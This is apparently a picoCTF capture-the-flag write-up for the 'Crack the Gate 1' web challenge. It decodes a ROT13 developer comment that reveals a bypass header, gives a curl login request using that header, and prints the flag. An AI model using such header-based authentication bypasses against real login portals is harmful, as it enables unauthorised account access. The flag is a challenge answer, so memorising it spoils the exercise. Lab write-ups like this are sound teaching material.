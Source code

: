 # Crack the Gate 1
- [Challenge information](#challenge-information)
- [Overview](#overview)
- [Solution](#solution)
- [Flag](#flag)

## Challenge information
```
Tags: Web Exploitation, picoMini by CMU-Africa, browser_webshell_solvable
  
Description:  
We’re in the middle of an investigation.  
One of our persons of interest, ctf player, is believed to be hiding sensitive data inside a restricted web portal.  
We’ve uncovered the email address he uses to log in: ctf-player@picoctf.org.  
Unfortunately, we don’t know the password, and the usual guessing techniques haven’t worked.  
But something feels off... it’s almost like the developer left a secret way in. Can you figure it out?
  
Hints:  
1. Developers sometimes leave notes in the code; but not always in plain text.
2. A common trick is to rotate each letter by 13 positions in the alphabet.  
```
## Overview
When entering the website, a login page appears  
<img width="400" height="250" alt="image" src="https://github.com/user-attachments/assets/48daae86-9317-4867-b187-33f8962fc500" />  
  
The website has provided us with an email and our job is to log in with this email  
Email: ctf-player@picoctf.org  
  
`Ctr+U` to view the page source, we see that the developer left a comment that should probably be deleted  
<img width="400" height="250" alt="image" src="https://github.com/user-attachments/assets/52d04548-5330-476e-811c-ca97fef00ecb" />  

## Solution
**Step1:** Decode  
`ABGR: Wnpx - grzcbenel olcnff: hfr urnqre "K-Qri-Npprff: lrf` => This is a piece of code encoded with rot13  
After coding, this is the collected data: `NOTE: Jack - temporary bypass: use header "X-Dev-Access: yes"`   
**Step2:** Exploit  
You can use burpsuite to capture requests and send them or you can use Curl to send requests.  
In this case, I use Curl  
`curl -X POST http://amiable-citadel.picoctf.net:YourPost/login -H "Content-Type: application/json" -H "X-Dev-Access: yes" -d '{"email":"ctf-player@picoctf.org","password":"123"}'`  

## Flag 
`picoCTF{brut4_f0rc4_cbb8faa7}`




